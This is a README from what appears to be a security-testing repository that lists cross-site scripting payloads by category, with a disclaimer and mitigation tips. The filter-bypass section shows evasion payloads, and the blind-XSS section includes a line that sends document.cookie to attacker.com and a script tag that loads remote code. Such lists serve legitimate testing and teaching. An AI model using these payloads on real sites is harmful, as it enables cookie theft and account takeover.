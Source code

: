 # 7k Cross-Site-Scripting-Payloads-list
Here’s a README file specifically for **Cross-Site Scripting (XSS) Payloads**:

---

# Cross-Site Scripting (XSS) Payloads

This repository contains a comprehensive list of **Cross-Site Scripting (XSS)** payloads, categorized and designed for ethical security testing. These payloads can help identify and understand XSS vulnerabilities in web applications.

---

## ⚠️ Disclaimer

This repository is intended for **authorized security testing and educational purposes only**. Misuse of these payloads against systems without explicit permission is illegal and unethical. The repository maintainers are not liable for any misuse.

---

## 📂 Categories of XSS Payloads

### 1. **Basic XSS Payloads**
These payloads test for basic XSS vulnerabilities in input fields or query parameters.

Examples:
```html
<script>alert('XSS')</script>
<img src=x onerror=alert(1)>
"><svg onload=alert('XSS')>
```

---

### 2. **Event Handler-Based Payloads**
Payloads that leverage HTML event handlers (e.g., `onload`, `onclick`) to execute scripts.

Examples:
```html
<svg onload=alert('XSS')>
<button onclick=alert('XSS')>Click Me</button>
<img src=x onerror=alert('XSS')>
```

---

### 3. **DOM-Based XSS Payloads**
DOM-based payloads target client-side scripts that manipulate the DOM.

Examples:
```html
# In URL:
http://example.com/#<script>alert('XSS')</script>

# Injected into a DOM element:
"><img src=x onerror=alert(1)>
```

---

### 4. **Polyglot XSS Payloads**
Payloads designed to work in multiple contexts (HTML, JavaScript, etc.).

Examples:
```html
"><script>alert('XSS')</script>
"><img src=x onerror=alert('XSS')>
</style><script>alert('XSS')</script>
```

---

### 5. **Bypass Techniques**
Payloads to bypass common XSS protections, such as filters or WAFs (Web Application Firewalls).

Examples:
```html
"><ScRiPt>alert('XSS')</ScRiPt>
<IMG SRC=x onerror="JaVaScRiPt:alert('XSS');">
%3Cscript%3Ealert('XSS')%3C/script%3E
```

---

### 6. **Stored XSS Payloads**
Payloads intended for stored XSS testing (e.g., in comment boxes, profiles).

Examples:
```html
<script>alert('Stored XSS')</script>
<img src=x onerror=alert('Stored XSS')>
```

---

### 7. **Blind XSS Payloads**
Payloads for blind XSS testing, useful when you don’t see immediate results.

Examples:
```html
<script src="https://example.com/malicious.js"></script>
<img src="http://attacker.com/log?cookie="+document.cookie>
```

---

## 💡 Usage Guidelines

1. **Identify Input Fields**: Locate user input fields, query parameters, or form inputs where scripts may be injected.
2. **Choose Payloads**: Select appropriate payloads based on the application context.
3. **Test Responsibly**: Use only in authorized environments with explicit permission.
4. **Analyze Responses**: Observe application behavior and identify any XSS vulnerability indications.

---

## 🛠️ Mitigation Techniques

To protect against XSS vulnerabilities:
1. **Sanitize Inputs**: Use libraries to encode and sanitize user input.
2. **Content Security Policy (CSP)**: Implement a strong CSP to prevent unauthorized scripts.
3. **Output Encoding**: Encode output for the correct context (HTML, JavaScript, etc.).
4. **Avoid Dangerous APIs**: Refrain from using `eval()`, `document.write()`, or other risky methods.
5. **Use Security Libraries**: Leverage tools like DOMPurify to clean untrusted HTML inputs.

---

## 🚀 Contribution

Contributions are welcome! To add new payloads or enhance existing ones:
1. Fork this repository.
2. Add your payloads under the relevant category.
3. Submit a pull request with a detailed explanation.

---

## 📜 License

This repository is licensed under the MIT License. See the [LICENSE](LICENSE) file for details.

---

By using this repository, you agree to ethical and responsible testing practices.
